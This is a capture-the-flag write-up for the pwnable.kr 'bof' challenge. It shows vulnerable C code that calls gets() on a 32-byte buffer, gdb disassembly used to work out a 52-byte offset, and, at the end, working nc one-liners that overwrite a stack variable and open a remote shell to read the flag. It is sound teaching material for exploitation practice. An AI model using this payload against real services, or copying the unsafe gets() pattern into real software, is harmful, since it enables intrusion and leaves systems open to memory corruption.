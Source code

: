 # Bof

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }else{
      printf("Nah..\n");
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

This is a very simple buffer overflow.

We have to figure out the address of our buffer and the address of the value we wish to change, then take the difference to figure out how many bytes of offset we need to input before the main payload, `\xbe\xba\xfe\xca`.

```bash
$ gdb bof
>>> disas main
Dump of assembler code for function main:
   0x5655568a <+0>:   push   ebp
   0x5655568b <+1>:   mov    ebp,esp
   0x5655568d <+3>:   and    esp,0xfffffff0
   0x56555690 <+6>:   sub    esp,0x10
   0x56555693 <+9>:   mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:  call   0x5655562c <func>
   0x5655569f <+21>:  mov    eax,0x0
   0x565556a4 <+26>:  leave
   0x565556a5 <+27>:  ret
End of assembler dump.
>>> b *0x5655569a
Breakpoint 1 at 0x5655569a
>>> r
Breakpoint 1, 0x5655569a in main ()
>>> p $esp
$1 = (void *) 0xffffcd10
>>> disas func
Dump of assembler code for function func:
   0x5655562c <+0>:   push   ebp
   0x5655562d <+1>:   mov    ebp,esp
   0x5655562f <+3>:   sub    esp,0x48
   0x56555632 <+6>:   mov    eax,gs:0x14
   0x56555638 <+12>:  mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:  xor    eax,eax
   0x5655563d <+17>:  mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:  call   0xf7e2e5d0 <puts>
   0x56555649 <+29>:  lea    eax,[ebp-0x2c]
   0x5655564c <+32>:  mov    DWORD PTR [esp],eax
   0x5655564f <+35>:  call   0xf7e2dcf0 <gets>
   0x56555654 <+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:  jne    0x5655566b <func+63>
   0x5655565d <+49>:  mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:  call   0xf7e08f40 <system>
   0x56555669 <+61>:  jmp    0x56555677 <func+75>
   0x5655566b <+63>:  mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:  call   0xf7e2e5d0 <puts>
   0x56555677 <+75>:  mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:  xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:  je     0x56555688 <func+92>
   0x56555683 <+87>:  call   0xf7ec7ac0 <__stack_chk_fail>
   0x56555688 <+92>:  leave
   0x56555689 <+93>:  ret
End of assembler dump.
>>> b *0x5655564f
Breakpoint 2 at 0x5655564f
>>> c
Breakpoint 2, 0x5655564f in func ()
>>> p/x $eax
$2 = 0xffffccdc
```

These addresses, `0xffffcd10` and `0xffffccdc`, are 52 bytes apart. Let's test it:

`$ python -c "print('.'*52+'\xbe\xba\xfe\xca')" | nc pwnable.kr 9000`

We did not get a `Nah..` message, which means it probably worked, but our pipe closed `stdin` before we could input anything to the shell. Let's keep it open and get our flag:

```bash
$ (python -c "print('.'*52+'\xbe\xba\xfe\xca')"; cat -) | nc pwnable.kr 9000
/bin/cat flag
```
